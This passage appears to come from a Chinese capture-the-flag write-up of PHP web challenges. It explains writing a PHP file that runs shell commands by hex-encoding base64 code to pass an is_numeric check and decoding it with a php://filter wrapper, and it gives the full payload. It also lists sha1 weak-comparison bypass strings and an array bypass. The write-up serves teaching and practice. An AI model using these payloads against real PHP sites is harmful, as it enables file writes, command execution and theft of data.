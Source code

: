 思路：

v2的值必须是纯数字，利用hex2bin函数将v2的值（16进制字符）转换成字符，再利用file_put_contents函数写进文件里

文件内容不好控制，但是可以利用伪协议将内容进行编码转换。
我们现在需要找到一条php语句经过base64编码，在转换为16进制之后全部都是数字

```
<?php
$a = '<?=`cat *`;';
$a = base64_encode($a);
echo $a."\n";
$b = 'PD89YGNhdCAqYDs'; //去掉base64的等号，数据不会变
$a = bin2hex($b);
echo $a; //5044383959474e6864434171594473

带e的话会被认为是科学计数法，可以通过is_numeric检测。
```

payload：

```
v2=115044383959474e6864434171594473&v3=php://filter/convert.base64-decode/resource=1.php
v1=hex2bin
```

#### is_numerc()

该函数在php5版本下有漏洞，可以识别十六进制,我们可以直接将php代码编码成16进制字符，就不需要利用伪协议了

## web104，106(sha1)

```
highlight_file(__FILE__);
include("flag.php");

if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2)){
        echo $flag;
    }
}
?> 
```

```
sha1弱比较符合的字符串
aaroZmOk
aaK1STfY
aaO8zKZF
aa3OFF9m
数组绕过
```

## web105(变量覆盖)
